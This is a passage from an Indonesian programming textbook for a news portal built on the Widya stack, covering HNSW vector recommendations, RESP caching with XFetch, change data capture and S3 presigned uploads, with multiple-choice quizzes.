## 28.2 Implementasi Penyimpanan Vektor & Kueri Rekomendasi

Berikut adalah definisi kolom vektor di WidyaBase dan kode repositori untuk menyajikan rekomendasi artikel terkait:

```sql
-- DDL Penambahan Ekstensi Vektor & Indeks HNSW di WidyaBase
ALTER TABLE artikel ADD COLUMN vektor_semantik VECTOR(768);

-- Buat Indeks HNSW Menggunakan Jarak Kosinus (Cosine Distance)
CREATE INDEX idx_artikel_vektor_hnsw ON artikel 
USING hnsw (vektor_semantik vector_cosine_ops)
WITH (m = 16, ef_construction = 128);
```

Implementasi kueri rekomendasi semantik di WidyaWeb:

```widya
// Modul Rekomendasi Berita Cerdas NusantaraNews
gunakan widya::base::vektor::{VektorDense, JarakVektor};
gunakan widya::web::http::{Permintaan, Respon, StatusHTTP};
gunakan widya::base::koneksi::{buka_koneksi};

rekod RekomendasiItem {
    id: Teks,
    judul: Teks,
    slug: Teks,
    kategori: Teks,
    skor_kemiripan_persen: Desimal
}

fungsi AmbilRekomendasiArtikelTerkait(artikel_id_target: Teks, jumlah: Bulat) -> Hasil<Senarai<RekomendasiItem>, Galat> {
    tetapan db = buka_koneksi()?;

    // Kueri Vektor HNSW: Menggunakan operator <=> (Cosine Distance)
    // Kemiripan Kosinus = 1.0 - (vektor_a <=> vektor_b)
    tetapan sql = "
        SELECT target.id, target.judul, target.slug, kat.nama AS kategori,
               ROUND(((1.0 - (target.vektor_semantik <=> sumber.vektor_semantik)) * 100)::numeric, 1) AS skor_kemiripan
        FROM artikel sumber
        JOIN artikel target ON target.id != sumber.id
        JOIN kategori kat ON kat.id = target.kategori_id
        WHERE sumber.id = $1
          AND target.status = 'published'
          AND target.vektor_semantik IS NOT NULL
        ORDER BY target.vektor_semantik <=> sumber.vektor_semantik ASC
        LIMIT $2;
    ";

    tetapan baris = db.kueri_banyak(sql, [artikel_id_target, jumlah])?;
    
    tetapan mutabel hasil = [];
    untuk b di baris {
        hasil.tambah(RekomendasiItem {
            id: b.ambil("id"),
            judul: b.ambil("judul"),
            slug: b.ambil("slug"),
            kategori: b.ambil("kategori"),
            skor_kemiripan_persen: b.ambil("skor_kemiripan").ke_desimal()
        });
    }

    kembalikan Hasil::Sukses(hasil);
}
```

---

## 28.3 Analisis Kinerja Pencarian Vektor: HNSW vs Pemindaian Eksak (Flat)

Indeks graf HNSW memberikan lompatan efisiensi ribuan kali lipat dibanding pemindaian jarak eksak (*Flat Exact Scan*) pada koleksi ratusan ribu artikel berita.

| Jumlah Dokumen Berita | Waktu Kueri ANN Flat (Eksak) | Waktu Kueri HNSW (WidyaBase) | Akurasi Daya Ingat (*Recall@10*) |
| :--- | :--- | :--- | :--- |
| **10.000 Artikel** | 14 ms | 0.4 ms | 99.4% |
| **100.000 Artikel** | 138 ms | 0.8 ms | 98.9% |
| **1.000.000 Artikel** | 1.420 ms (Terlalu Lambat) | 1.6 ms (Sangat Cepat) | 98.2% |
| **10.000.000 Artikel** | 14.500 ms (Crash Memori) | 2.8 ms (Konstan $O(\log N)$) | 97.8% |

---

## 28.4 Latihan Praktik & Studi Kasus

1. **Implementasi Linimasa Berita Terpersonalisasi (For You Feed)**: Bangun vektor preferensi pembaca dengan menghitung rata-rata tertimbang (*weighted average centroid*) dari vektor 10 artikel terakhir yang dibaca pengguna, kemudian kuerikan artikel serupa yang belum pernah mereka buka.
2. **Kombinasi Pencarian Hibrida (Hybrid Search = BM25 + Vektor)**: Rancang algoritma pemeringkatan gabungan (*Reciprocal Rank Fusion / RRF*) yang menyatukan skor pencarian leksikal BM25 dan skor kedekatan semantik vektor.
3. **Penyetelan Parameter Indeks Graf (`m` dan `ef_construction`)**: Lakukan benchmarking terhadap nilai parameter $m=32$ dan $ef\_construction=256$ untuk mengukur keseimbangan antara waktu pembuatan indeks, konsumsi RAM, dan akurasi recall.

---

## 28.5 Evaluasi Mandiri Pilihan Ganda

1. Mengapa pencarian semantik berbasis AI vektor lebih unggul daripada pencarian kata kunci tradisional dalam menghasilkan rekomendasi berita?
   - A. Karena dapat memahami kesamaan konteks dan makna konseptual kalimat meskipun tidak menggunakan kata kunci yang persis sama
   - B. Karena model vektor menghapus artikel berita yang mengandung kata negatif
   - C. Karena vektor hanya bisa dihitung di server superkomputer luar angkasa
   - D. Mengharuskan pembaca membayar biaya langganan bulanan

2. Struktur data graf apa yang digunakan oleh WidyaBase Vektor untuk mempercepat pencarian tetangga terdekat dengan kompleksitas waktu logaritmik?
   - A. Hierarchical Navigable Small World (HNSW)
   - B. Red-Black Tree murni
   - C. Queue satu arah
   - D. Hash map sederhana

3. Operator simbolik apa yang digunakan dalam kueri SQL WidyaBase untuk menghitung jarak kosinus (*Cosine Distance*) antara dua vektor?
   - A. Operator `<=>`
   - B. Operator `+`
   - C. Operator `==`
   - D. Operator `LIKE`

4. Berapa dimensi vektor padat (*dense vector*) yang umum dihasilkan oleh model transformator semantik standar pada contoh di atas?
   - A. 2 dimensi
   - B. 768 dimensi
   - C. 1 dimensi
   - D. 1.000.000 dimensi

5. Apa fungsi dari parameter $m$ dalam pembuatan indeks HNSW (`WITH (m = 16, ...)`?
   - A. Menentukan jumlah koneksi tautan dua arah maksimal untuk setiap simpul graf pada lapisan dasar
   - B. Menghitung jumlah jurnalis di kantor berita
   - C. Membatasi ukuran huruf judul artikel
   - D. Menghapus 16 artikel tertua setiap malam

6. Jika nilai jarak kosinus antara dua artikel adalah $0.05$, berapakah persentase tingkat kemiripan semantik kedua artikel tersebut?
   - A. $5\%$
   - B. $95\%$
   - C. $0\%$
   - D. $50\%$

7. Apa arti dari metrik *Recall@10* bernilai 98% pada pengujian pencarian vektor perkiraan (*Approximate Nearest Neighbor*)?
   - A. Dari 10 rekomendasi teratas yang ditemukan oleh graf HNSW, rata-rata 9.8 artikel persis sama dengan hasil algoritma pemindaian eksak lambat
   - B. 98% artikel mengalami galat sistem
   - C. Hanya 2 pembaca yang menyukai artikel tersebut
   - D. Baterai ponsel berkurang 98%

8. Mengapa proses konversi naskah artikel menjadi vektor (*Embedding Inference*) tidak boleh dijalankan secara sinkron di dalam thread peladen web utama?
   - A. Eksekusi model inferensi jaringan saraf tiruan (AI) membutuhkan komputasi matriks yang intensif dan harus didelegasikan ke antrean tugas latar belakang berakselerasi GPU
   - B. Karena bahasa Widya-Lang tidak mendukung matematika
   - C. Karena dapat mematikan layar monitor pengguna
   - D. Menghindari pemotongan honorarium jurnalis

9. Algoritma apa yang digunakan untuk menggabungkan hasil peringkat pencarian leksikal (BM25) dan pencarian semantik (Vektor) menjadi satu skor tunggal yang adil?
   - A. Reciprocal Rank Fusion (RRF)
   - B. Bubble Sort
   - C. Algoritma Prim
   - D. Enkripsi AES

10. Berapa rata-rata waktu yang dibutuhkan oleh WidyaBase HNSW untuk mencari 10 artikel terkait dari 1 juta artikel arsip?
    - A. Kurang lebih 1.6 milidetik
    - B. Tepat 10 menit
    - C. Setengah jam
    - D. 5 detik

---

# BAB 29: CACHING BERPERFORMA TINGGI PROTOKOL RESP DI WIDYABASE KV

Bab ini membahas implementasi lapisan singgahan (*caching layer*) berkecepatan mikrodetik pada portal berita NusantaraNews menggunakan subsistem Kunci-Nilai WidyaBase KV yang sepenuhnya kompatibel dengan protokol RESP (*REdis Serialization Protocol*): strategi *Cache-Aside*, eliminasi masalah *Cache Stampede / Dog-piling*, penandaan cache (*Cache Tagging*), serta invalidasi selektif terkoordinasi.

---

## 29.1 Arsitektur Caching Berlapis & Protokol RESP

Mengakses database relasional untuk setiap tayangan halaman beranda (*homepage view*) portal berita adalah pemborosan sumber daya komputasi. WidyaBase menyematkan mesin penyimpanan *in-memory* berbasis struktur data skip-list dan hash table yang merespons perintah standar RESP (seperti `GET`, `SETEX`, `HGETALL`, `EVALSHA`) dengan latensi di bawah 100 mikrodetik.

```mermaid
sequenceDiagram
    autonumber
    actor Pembaca as Klien Web
    participant Server as Peladen WidyaWeb
    participant Cache as WidyaBase KV (Protokol RESP)
    participant DB as WidyaBase Relasional (Tabel SQL)

    Pembaca->>Server: Akses Halaman Beranda (GET /)
    Server->>Cache: RESP: GET "cache:berita:headline"
    alt Cache Hit (98.5% Kasus)
        Cache-->>Server: Muatan JSON Artikel Headline (0.08 ms)
        Server-->>Pembaca: Render Respons HTML Instan
    else Cache Miss (1.5% Kasus)
        Cache-->>Server: Nilai Kosong (nil)
        Server->>DB: Kueri SQL: SELECT * FROM artikel WHERE ...
        DB-->>Server: Data Baris Artikel
        Server->>Cache: RESP: SETEX "cache:berita:headline" 300 [JSON]
        Server-->>Pembaca: Render Respons HTML
    end
```

Untuk mencegah kondisi kritis di mana ribuan permintaan konkuren membaca data basi saat cache kedaluwarsa secara serentak (*Cache Stampede*), WidyaWeb menerapkan algoritma **Probabilistic Early Expiration (XFetch)**.

---

## 29.2 Implementasi Klien RESP & Pola Cache-Aside

Berikut adalah implementasi modul singgahan portal berita dengan proteksi anti-stampede XFetch:

```widya
// Modul Caching RESP NusantaraNews
gunakan widya::base::resp::{KlienRESP, NilaiRESP};
gunakan widya::matematika::{logaritma_natural, acak_antara_0_dan_1};
gunakan widya::waktu::{ambil_waktu_unix_detik};

rekod MetadataCache {
    nilai_teks: Teks,
    kedaluwarsa_pada: Bulat,
    waktu_komputasi_detik: Desimal
}

struktur ManajerCacheBerita {
    klien: KlienRESP,
    koefisien_beta: Desimal // Faktor sensitivitas XFetch (bawaan 1.0)
}

implementasi ManajerCacheBerita {
    fungsi baru(alamat_kv: Teks, port_kv: Bulat) -> ManajerCacheBerita {
        kembalikan ManajerCacheBerita {
            klien: KlienRESP::hubungkan(alamat_kv, port_kv)?,
            koefisien_beta: 1.0
        };
    }

    // Pola Cache-Aside dengan Algoritma Evaluasi Probabilistik XFetch
    fungsi ambil_atau_hitung(
        mutabel self,
        kunci: Teks,
        ttl_detik: Bulat,
        fungsi_hitung: Fungsi() -> Teks
    ) -> Teks {
        tetapan sekarang = ambil_waktu_unix_detik();
        tetapan respon_kv = self.klien.kirim(["HGETALL", kunci]);

        jika respon_kv.apakah_peta_ada() {
            tetapan meta = self.dekode_metadata(respon_kv);
            
            // Formula XFetch: delta * beta * ln(rand())
            // Jika waktu sekarang - sisa TTL melampaui ambang probabilistik, satu pekerja akan memperbarui cache lebih awal
            tetapan jeda_probabilistik = meta.waktu_komputasi_detik * self.koefisien_beta * (-logaritma_natural(acak_antara_0_dan_1()));
            tetapan apakah_perlu_segar = (sekarang.ke_desimal() - jeda_probabilistik) >= meta.kedaluwarsa_pada.ke_desimal();

            jika !apakah_perlu_segar {
                kembalikan meta.nilai_teks; // Cache Hit Murni
            }
        }

        // Cache Miss atau Terpilih untuk Memperbarui Lebih Awal
        tetapan waktu_mulai = ambil_waktu_presisi();
        tetapan nilai_baru = fungsi_hitung();
        tetapan durasi_komputasi = ambil_waktu_presisi() - waktu_mulai;

        // Simpan kembali ke WidyaBase KV dengan stempel masa depan
        tetapan batas_waktu = sekarang + ttl_detik;
        self.klien.kirim(["HSET", kunci, 
            "konten", nilai_baru, 
            "kedaluwarsa", batas_waktu.ke_teks(), 
            "durasi_hitung", durasi_komputasi.ke_teks()
        ]);
        self.klien.kirim(["EXPIRE", kunci, (ttl_detik * 2).ke_teks()]);

        kembalikan nilai_baru;
    }

    // Invalidasi Cache Berbasis Tag Rubrik (Misal: "kategori:politik")
    fungsi batalkan_singgahan_tag(mutabel self, tag: Teks) {
        tetapan daftar_kunci = self.klien.kirim(["SMEMBERS", "tag:" + tag]).ke_senarai();
        untuk k di daftar_kunci {
            self.klien.kirim(["DEL", k]);
        }
        self.klien.kirim(["DEL", "tag:" + tag]);
        cetak_log("[Cache] Berhasil membatalkan " + daftar_kunci.panjang().ke_teks() + " kunci untuk tag " + tag);
    }
}
```

---

## 29.3 Analisis Ketahanan Beban: Cache-Aside Standar vs XFetch

Pada saat terjadi berita luar biasa (*Breaking News* viral), ribuan pembaca memuat ulang halaman secara bersamaan tepat saat kunci cache berakhir.

| Parameter Evaluasi | Cache-Aside Tradisional | WidyaBase KV + XFetch |
| :--- | :--- | :--- |
| **Kueri Masuk ke Database saat Expire** | 4.200 kueri SQL/detik (*Dog-piling Crash*) | Tepat 1 kueri SQL (*Zero Stampede*) |
| **Lonjakan Latensi Pengguna** | Melonjak hingga 8.500 ms | Rata-rata stabil di 0.12 ms |
| **Tingkat Ketersediaan (*Availability*)** | Sistem down (503 Service Unavailable) | 99.999% Ketersediaan Tinggi |
| **Beban Penggunaan Memori KV** | Sangat Hemat | Tetap Hemat (< 200 byte per kunci) |

---

## 29.4 Latihan Praktik & Studi Kasus

1. **Implementasi Pengelompokan Kunci Menggunakan Hash Tag**: Konfigurasikan penamaan kunci singgahan (misal: `{artikel:9942}:meta` dan `{artikel:9942}:komentar`) agar terdistribusi ke simpul partisi klaster (*hash slot*) yang sama pada WidyaBase KV.
2. **Kunci Pembatas Konkurensi Terdistribusi (Distributed Lock / Redlock)**: Rancang fungsi `peroleh_kunci_distribusi(kunci, ttl)` menggunakan perintah atomik `SET NX PX` untuk menjamin hanya 1 worker yang mengeksekusi sinkronisasi data analitik ke basis data.
3. **Invalidasi Bertingkat Berbasis Event Bus**: Hubungkan invalidasi tag cache dengan peristiwa publikasi artikel di editor jurnalis sehingga begitu tombol "Terbitkan" ditekan, singgahan halaman depan langsung terhapus seketika.

---

## 29.5 Evaluasi Mandiri Pilihan Ganda

1. Protokol serialisasi teks berkinerja tinggi apa yang digunakan oleh WidyaBase KV untuk kompatibilitas penuh dengan ekosistem Redis?
   - A. Protokol SOAP XML
   - B. REdis Serialization Protocol (RESP)
   - C. Protokol FTP
   - D. Protokol BGP

2. Fenomena buruk apa yang terjadi ketika sebuah kunci cache populer kedaluwarsa dan ribuan permintaan pembaca secara serentak langsung menghantam basis data relasional di saat yang sama?
   - A. Cache Stampede (Dog-piling effect)
   - B. Buffer Overflow
   - C. SQL Injection
   - D. Cross-Site Scripting

3. Bagaimana algoritma probabilistik *XFetch* mencegah fenomena *Cache Stampede*?
   - A. Menghitung secara probabilistik kapan sebuah kunci harus disegarkan kembali oleh satu pekerja acak sesaat sebelum kunci tersebut kedaluwarsa secara alami
   - B. Menghapus database secara permanen
   - C. Menolak seluruh koneksi pengunjung portal
   - D. Mematikan fitur caching selamanya

4. Dalam pola *Cache-Aside*, di manakah tanggung jawab pengambilan data dari database dan penulisan kembali ke cache berada?
   - A. Diatur langsung oleh kode aplikasi web (*application level*)
   - B. Diatur oleh kabel serat optik internet
   - C. Diatur oleh peramban pengguna
   - D. Diatur oleh sistem pendingin server

5. Perintah RESP apa yang digunakan untuk mengatur masa aktif kedaluwarsa (*Time to Live / TTL*) sebuah kunci dalam hitungan detik?
   - A. `EXPIRE` atau `SETEX`
   - B. `SHUTDOWN`
   - C. `FLUSHALL`
   - D. `INFO`

6. Apa fungsi dari strategi *Cache Tagging* (Penandaan Cache) pada sistem manajemen konten berita?
   - A. Mengelompokkan berbagai kunci cache terkait (misal: artikel, widget rekomendasi, rss) di bawah satu label kategori yang sama agar dapat diinvalidasi sekaligus dalam satu operasi pemanggilan
   - B. Memberikan harga pada setiap artikel berita
   - C. Membatasi jumlah huruf pada judul
   - D. Mengubah warna teks menjadi abu-abu

7. Berapa kisaran latensi respons pembacaan memori pada WidyaBase KV saat terjadi *Cache Hit*?
   - A. Di bawah 100 mikrodetik (0.1 ms)
   - B. Lebih dari 5 detik
   - C. Tepat 1 menit
   - D. 500 milidetik

8. Perintah atomik RESP apa yang paling umum digunakan untuk membangun penguncian terdistribusi (*Distributed Lock*) yang aman?
   - A. `SET key value NX PX milliseconds`
   - B. `DEL key`
   - C. `GET key`
   - D. `KEYS *`

9. Mengapa penggunaan perintah `KEYS *` sangat dilarang keras di lingkungan produksi dengan jutaan data?
   - A. Memblokir alur utama eksekusi single-threaded RESP selama pemindaian seluruh keyspace dan dapat melumpuhkan seluruh aplikasi
   - B. Menghapus seluruh data pengguna
   - C. Mengubah konfigurasi firewall server
   - D. Mengirim pesan spam ke jurnalis

10. Nilai rasio keberhasilan singgahan (*Cache Hit Ratio*) yang sehat untuk portal berita dengan lalu lintas skala nasional umumnya berada di atas:
    - A. $10\%$
    - B. $50\%$
    - C. $95\%$
    - D. $0\%$

---

# BAB 30: REPLIKASI TERDISTRIBUSI & CHANGE DATA CAPTURE (CDC)

Bab ini membahas arsitektur sinkronisasi data real-time pada NusantaraNews: streaming log transaksi biner (*Write-Ahead Logging / WAL*), implementasi mesin *Change Data Capture* (CDC) berbasis replikasi logikal WidyaBase, pemancaran mutasi baris data (INSERT, UPDATE, DELETE) ke antrean peristiwa, serta pembaruan otomatis indeks mesin pencari dan feed linimasa editorial secara instan.

---

## 30.1 Teori Replikasi Logikal & Arsitektur CDC

Dalam sistem skala besar, memperbarui berbagai sistem turunan (mesin pencarian BM25, indeks graf vektor HNSW, cache memori KV, dan analitik data lake) melalui kueri ganda di kode backend adalah sumber utama inkonsistensi data (*dual-write problem*). Arsitektur **Change Data Capture (CDC)** mengalirkan setiap perubahan baris data secara langsung dari jurnal transaksi basis data (*WAL / Transaction Log*) secara asinkron tanpa membebani thread transaksi utama.

```mermaid
flowchart LR
    subgraph BasisDataInti ["WidyaBase Cluster"]
        SQL["Transaksi Redaksi: UPDATE artikel SET status='published'"] --> WAL["Write-Ahead Log (WAL Biner)"]
        WAL --> EngineWAL["Logical Replication Engine"]
    end

    subgraph CDC_Pipeline ["Pipa Replikasi CDC WidyaWeb"]
        EngineWAL -- Aliran Alur Peristiwa Biner --> Decoder["WidyaBase Logical Decoder (pgoutput / json)"]
        Decoder --> EventBus["Pusat Distribusi Peristiwa (CDC Event Stream)"]
    end

    subgraph KonsumenHilir ["Konsumen Peristiwa Hilir"]
        EventBus --> SyncSearch["Sinkronisasi Mesin Pencari BM25"]
        EventBus --> SyncVector["Pembangkitan Vektor Rekomendasi AI"]
        EventBus --> InvalidateCache["Invalidasi Tag Singgahan KV"]
        EventBus --> PushSSE["Dorong ke Breaking News Ticker (SSE)"]
    end
```

---

## 30.2 Implementasi Pendengar CDC di WidyaWeb

Berikut adalah implementasi modul konsumsi aliran replikasi logikal WidyaBase untuk mendeteksi perubahan status artikel secara real-time:

```widya
// Modul Replikasi Logikal & CDC NusantaraNews
gunakan widya::base::cdc::{AliranReplikasi, PesanCDC, TipeAksiCDC, KonfigurasiSlot};
gunakan widya::web::streaming::{SiarkanEventGlobal};

rekod PerubahanArtikel {
    aksi: Teks,
    id: Teks,
    judul: Teks,
    status_baru: Teks,
    status_lama: Opsi<Teks>
}

fungsi MulaiPemantauCDCReplikasi() {
    tetapan cfg_slot = KonfigurasiSlot::baru()
        .nama_slot("nusantara_cdc_portal")
        .nama_publikasi("pub_artikel_seluruh")
        .format_keluaran("json")
        .posisi_wal_awal("terbaru");

    cetak_log("[CDC] Membuka koneksi replikasi logikal ke WidyaBase...");
    tetapan mutabel aliran = AliranReplikasi::hubungkan(cfg_slot)?;
    cetak_log("[CDC] Saluran terhubung. Mendengarkan mutasi logikal WAL...");

    ulang {
        // Ambil paket perubahan biner berikutnya
        tetapan paket = aliran.baca_pesan_berikutnya()?;
        
        pilih paket.aksi() {
            TipeAksiCDC::Sisip(baris) => {
                tetapan tabel = paket.nama_tabel();
                jika tabel == "artikel" {
                    tetapan id = baris.ambil("id");
                    tetapan judul = baris.ambil("judul");
                    tetapan status = baris.ambil("status");

                    jika status == "published" {
                        cetak_log("[CDC Event] Berita baru terbit: " + judul);
                        TanganiArtikelTerbit(id, judul, baris);
                    }
                }
            },
            TipeAksiCDC::Perbarui(baris_baru, baris_lama) => {
                tetapan tabel = paket.nama_tabel();
                jika tabel == "artikel" {
                    tetapan status_baru = baris_baru.ambil("status");
                    tetapan status_lama = baris_lama.ambil("status");

                    // Deteksi transisi dari review ke published
                    jika status_lama != "published" && status_baru == "published" {
                        tetapan id = baris_baru.ambil("id");
                        tetapan judul = baris_baru.ambil("judul");
                        TanganiArtikelTerbit(id, judul, baris_baru);
                    }
                }
            },
            TipeAksiCDC::Hapus(identitas_lama) => {
                cetak_log("[CDC Event] Data artikel dihapus: " + identitas_lama.ke_teks());
                // Bersihkan indeks pencarian & singgahan
                HapusIndeksPencarian(identitas_lama.ambil("id"));
            }
        }

        // Kirim konfirmasi LSN (Log Sequence Number) ke server basis data
        aliran.konfirmasi_lsn(paket.posisi_lsn());
    }
}

fungsi TanganiArtikelTerbit(id: Teks, judul: Teks, data: PetaData) {
    // 1. Perbarui Mesin Pencari & Vektor
    JadwalkanIndeksFTS(id, data);

    // 2. Batalkan Singgahan Halaman Depan
    ManajerCache::batalkan_tag("kategori:" + data.ambil("kategori_slug"));

    // 3. Dorong Siaran ke Pembaca Aktif melalui SSE
    SiarkanEventGlobal("breaking_news", {
        "id": id,
        "judul": judul,
        "url": "/berita/" + data.ambil("slug")
    });
}
```

---

## 30.3 Analisis Efektivitas: Pola CDC vs Dual-Write Aplikasi

Menggantikan pola penulisan ganda (*dual-write*) di lapisan aplikasi dengan CDC menjamin konsistensi data mutlak (*eventual consistency guaranteed*).

| Masalah Arsitektur | Penulisan Ganda di Aplikasi (*Dual-Write*) | Change Data Capture (CDC WidyaBase) |
| :--- | :--- | :--- |
| **Aplikasi Crash di Tengah Eksekusi** | Database tersimpan, namun Search Engine tidak terupdate (Inkonsisten) | Log WAL tetap tercatat; CDC melanjutkan streaming setelah restart |
| **Kinerja Transaksi HTTP Utama** | Lambat (Harus menunggu 4 sistem hilir selesai) | Sangat Cepat (Aplikasi hanya menulis ke DB lokal, CDC bekerja asinkron) |
| **Urutan Peristiwa (*Event Ordering*)** | Berantakan akibat balapan konkurensi HTTP worker | Terurut secara linier sesuai stempel LSN di Write-Ahead Log |
| **Overhead Sumber Daya Database** | Banyak kueri polling `SELECT WHERE updated_at` | Nol polling; transmisi streaming murni berbasis dorongan peristiwa (*push*) |

---

## 30.4 Latihan Praktik & Studi Kasus

1. **Konfigurasi Slot Replikasi Logikal di WidyaBase**: Eksekusi perintah DDL `CREATE PUBLICATION pub_nusantara FOR TABLE artikel, komentar;` dan buat *logical replication slot* menggunakan ekstensi pgoutput.
2. **Penanganan Aliran Data Balik (CDC Backpressure)**: Implementasikan mekanisme kontrol laju konsumsi pada pendengar CDC agar tidak mengalami kehabisan memori jika terjadi migrasi data massal sebanyak 500.000 baris sekaligus.
3. **Penyusunan Jejak Audit Riwayat Sunting Berita (Audit Trail)**: Rancang konsumen CDC khusus yang menyimpan riwayat setiap kali seorang jurnalis merevisi teks naskah berita ke dalam tabel arsip perubahan permanen.

---

## 30.5 Evaluasi Mandiri Pilihan Ganda

1. Apa kepanjangan dari singkatan CDC dalam arsitektur data terdistribusi modern?
   - A. Change Data Capture
   - B. Central Data Center
   - C. Continuous Delivery Cloud
   - D. Computer Data Compression

2. Berkas jurnal biner apa pada mesin basis data yang menjadi sumber utama pembacaan mutasi baris data oleh mesin CDC?
   - A. Write-Ahead Log (WAL)
   - B. Berkas konfigurasi teks `widya.conf`
   - C. File log web server Apache
   - D. Berkas gambar favicon

3. Masalah arsitektur fatal apa yang dieliminasi dengan menggunakan pola CDC dibandingkan memperbarui Search Engine dan Cache langsung dari kode controller HTTP?
   - A. Dual-Write Problem (Kondisi inkonsistensi saat salah satu sistem berhasil dan sistem lain gagal ditulis)
   - B. Biaya tagihan domain internet
   - C. Memori hard disk habis
   - D. Keharusan jurnalis mengetik judul berita

4. Apa peran dari *Log Sequence Number* (LSN) dalam aliran replikasi logikal?
   - A. Pengenal integer 64-bit unik yang menandai posisi urutan linier dari setiap rekod perubahan pada jurnal transaksi WAL
   - B. Nomor telepon kantor redaksi
   - C. Kode lisensi perangkat lunak
   - D. Jumlah pembaca artikel per hari

5. Mengapa pengiriman konfirmasi LSN (*Acknowledgment*) sangat penting dikirimkan kembali oleh klien pendengar CDC ke peladen basis data?
   - A. Memberi tahu basis data bahwa segmen WAL sebelum posisi LSN tersebut telah aman diproses sehingga berkas fisik WAL lama di disk dapat didaur ulang/dihapus
   - B. Mematikan komputer basis data
   - C. Menghapus akun jurnalis
   - D. Mengubah warna teks terminal

6. Tipe mutasi data apa saja yang ditangkap dan dipancarkan oleh mesin replikasi logikal WidyaBase?
   - A. Operasi `INSERT`, `UPDATE`, dan `DELETE`
   - B. Hanya perintah `SELECT`
   - C. Hanya penambahan komentar kode program
   - D. Perintah mematikan komputer

7. Apa bahaya jika slot replikasi logikal dibuat di basis data tetapi tidak pernah ada proses konsumen yang membaca dan mengonfirmasi LSN-nya?
   - A. Basis data akan terus mempertahankan seluruh berkas WAL di disk tanpa pernah menghapusnya hingga ruang penyimpanan hard disk habis (*Disk Full Outage*)
   - B. Komputer akan meledak
   - C. Kecepatan internet akan meningkat drastis
   - D. Seluruh tabel akan berubah nama menjadi huruf besar

8. Dalam skenario di atas, apa yang memicu pemancaran notifikasi breaking news ke pembaca melalui SSE?
   - A. Deteksi perubahan kolom status artikel dari draf menjadi "published" pada peristiwa `UPDATE` atau `INSERT` yang tertangkap oleh CDC
   - B. Peramban pengguna dibuka di pagi hari
   - C. Jurnalis menekan tombol restart laptop
   - D. Server kehabisan kuota bandwidth

9. Mengapa pendekatan CDC jauh lebih hemat beban database dibandingkan pendekatan *polling* berkala (`SELECT * WHERE updated_at > ...`)?
   - A. Menghilangkan kebutuhan eksekusi kueri berulang yang membebani CPU dan indeks tabel, menggantikannya dengan aliran stream log biner pasif
   - B. Karena CDC hanya berjalan di server gratis
   - C. Karena CDC tidak menggunakan memori komputer
   - D. Membatasi ukuran artikel berita

10. Apakah urutan penerimaan peristiwa (*event ordering*) pada sistem CDC terjamin konsisten?
    - A. Ya, urutan dijamin mutlak linier dan berurutan sesuai dengan urutan transaksi yang berhasil di-*commit* ke dalam jurnal WAL
    - B. Tidak, urutannya selalu acak
    - C. Hanya terurut pada hari libur
    - D. Tergantung arah tiupan angin

---

# BAB 31: OBJECT STORE S3-COMPATIBLE & DISTRIBUSI MEDIA BESAR

Bab ini mengupas tuntas arsitektur penyimpanan dan distribusi aset multimedia (foto beresolusi ultra-tinggi, infografis interaktif, rekaman video investigasi, dan rekaman podcast audio) pada NusantaraNews: integrasi penyimpanan objek kompatibel protokol S3 API, mekanisme unggahan langsung dari peramban menggunakan *Presigned URLs*, penandatanganan AWS Signature Version 4 (SigV4), serta integrasi jaringan pengiriman konten (*Content Delivery Network / CDN*).

---

## 31.1 Arsitektur Penyimpanan Objek Terdistribusi & Presigned URL

Menyalurkan unggahan berkas video sebesar ratusan megabyte melalui peladen aplikasi backend WidyaWeb akan menyandera soket koneksi dan menghabiskan memori RAM peladen. Arsitektur media modern menerapkan pola **Direct-to-Storage Upload via Presigned URL**: peramban jurnalis meminta izin unggah berbatas waktu ke backend, kemudian langsung mentransfer berkas biner ke Object Store (seperti MinIO atau Amazon S3) tanpa menyentuh peladen aplikasi.

```mermaid
sequenceDiagram
    autonumber
    actor Jurnalis as Dashboard Editor Redaksi
    participant Server as Peladen WidyaWeb
    participant S3Store as Object Store S3 (MinIO / AWS S3)
    participant CDN as Edge CDN Global (cdn.nusantaranews.id)

    Jurnalis->>Server: POST /api/media/presign (file: liputan.mp4, size: 250MB)
    Server->>Server: Verifikasi Sesi & Tanda Tangani SigV4 (Expired: 15 menit)
    Server-->>Jurnalis: Berikan URL Unggah Bertanda Tangan (PUT https://s3.nusantaranews.id/...)
    Jurnalis->>S3Store: Langsung PUT liputan.mp4 dengan Progress Bar (Zero Server Load)
    S3Store-->>Jurnalis: 200 OK (ETag Terbit)
    Jurnalis->>Server: POST /api/media/confirm (Verifikasi Metadata)
    Server->>Server: Jadwalkan Antrean Transcoding HLS
    CDN-->>Pembaca: Sajikan Varian Media Terkompresi dari Simpul Tepi (Cache Hit)
```

---

## 31.2 Implementasi Penandatanganan S3 Presigned URL di WidyaWeb

Berikut adalah implementasi pembangkitan URL unggah langsung bertanda tangan aman menggunakan pustaka native WidyaWeb:

```widya
// Modul Penyimpanan Objek S3 NusantaraNews
gunakan widya::web::s3::{KlienS3, OpsiPresign, MetodeHTTP};
gunakan widya::web::http::{Permintaan, Respon, StatusHTTP};
gunakan widya::kripto::{uuid_v4};

rekod KonfigurasiS3News {
    wilayah: Teks,
    nama_bucket: Teks,
    titik_akhir: Teks,
    kunci_akses: Teks,
    kunci_rahasia: Teks
}

// 1. Handler Permintaan Presigned Upload URL
fungsi TanganiMintaPresignedUpload(req: Permintaan) -> Respon {
    tetapan pengguna = req.konteks_keamanan().pengguna_terautentikasi()?;
    tetapan payload = req.badan_json()?;
    
    tetapan nama_berkas_asli = payload.ambil("nama_berkas");
    tetapan tipe_mime = payload.ambil("tipe_mime");
    tetapan ukuran_byte = payload.ambil("ukuran_byte").ke_bulat();

    // Validasi Tipe Berkas Media yang Diizinkan
    tetapan ekstensi = DapatkanEkstensi(nama_berkas_asli);
    jika !apakah_ekstensi_media_sah(ekstensi, tipe_mime) {
        kembalikan Respon::status(StatusHTTP::BadRequest)
            .atur_badan_json({"error": "Format berkas media tidak didukung redaksi"})
            .bangun();
    }

    // Batasi Ukuran Berkas Maksimal 500 MB
    jika ukuran_byte > (500 * 1024 * 1024) {
        kembalikan Respon::status(StatusHTTP::PayloadTooLarge)
            .atur_badan_json({"error": "Ukuran berkas melebihi batas 500 MB"})
            .bangun();
    }

    // Bangun Kunci Objek Unik Berdasarkan Tanggal & UUID
    tetapan kunci_objek = "raw-uploads/" + ambil_format_tahun_bulan() + "/" + uuid_v4() + "." + ekstensi;

    // Inisialisasi Klien S3
    tetapan klien_s3 = KlienS3::baru(
        "nusantara-media-storage",
        "https://s3.nusantaranews.id",
        "id-jkt-1",
        "AKIA_NUSANTARA_KEY",
        "SECRET_NUSANTARA_KEY"
    );

    // Hasilkan Presigned URL untuk Metode HTTP PUT (Berlaku 15 Menit)
